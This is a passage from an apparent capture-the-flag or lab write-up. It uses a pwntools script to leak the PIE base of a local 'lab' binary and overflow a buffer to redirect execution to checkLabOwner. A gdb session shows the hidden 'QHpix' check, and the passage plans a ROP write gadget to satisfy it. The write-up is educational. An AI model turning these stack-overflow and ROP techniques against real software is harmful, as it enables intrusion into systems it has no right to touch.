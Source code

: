 ## Calling checkLabOwner
We can try calling `checkLabOwner` to get more info on what the `strncmp` is testing. We can make a sample script to calculate the address of `checkLabOwner` and call it:
```python
from pwn import *

checkLabOwner_offset = 0x121c
main_offset = 0x12d4
padding = cyclic(76)
p = process('./lab')

p.recvuntil('Main is at ')
main = int(p.recv(10),16) #0xdeadbeef

log.info('Main is at: {}'.format(hex(main)))
base = main - main_offset
log.success('PIE base: {}'.format(hex(base)))

checkLabOwner = base + checkLabOwner_offset
p.recvuntil(': ')
payload = padding
payload += p32(checkLabOwner)

raw_input() #pause script to attach gdb to the process
p.sendline(payload)
p.interactive()
p.close()
```
Now let's test it:
```
gdb-peda$ b *checkLabOwner+119
Breakpoint 1 at 0x5664d293
gdb-peda$ c
Continuing.
[===snip===]
[-------------------------------------code-------------------------------------]
   0x5664d28b <checkLabOwner+111>:      push   eax
   0x5664d28c <checkLabOwner+112>:      lea    eax,[ebx+0x40]
   0x5664d292 <checkLabOwner+118>:      push   eax
=> 0x5664d293 <checkLabOwner+119>:      call   0x5664d0b0 <strncmp@plt>
   0x5664d298 <checkLabOwner+124>:      add    esp,0x10
   0x5664d29b <checkLabOwner+127>:      test   eax,eax
   0x5664d29d <checkLabOwner+129>:      jne    0x5664d2ce <checkLabOwner+178>
   0x5664d29f <checkLabOwner+131>:      lea    eax,[ebx+0x3c]
Guessed arguments:
arg[0]: 0x56650040 --> 0x0
arg[1]: 0x5664e02b ("QHpix")
arg[2]: 0x5
[===snip===]
gdb-peda$ x/x 0x56650040
0x56650040 <labOwner>:  0x00
```
Ok, so it checks for the string `QHpix` at `labOwner`.
Using the `mov dword ptr [edi], ebp; ret;` gadget we found earlier, we can write to that location.
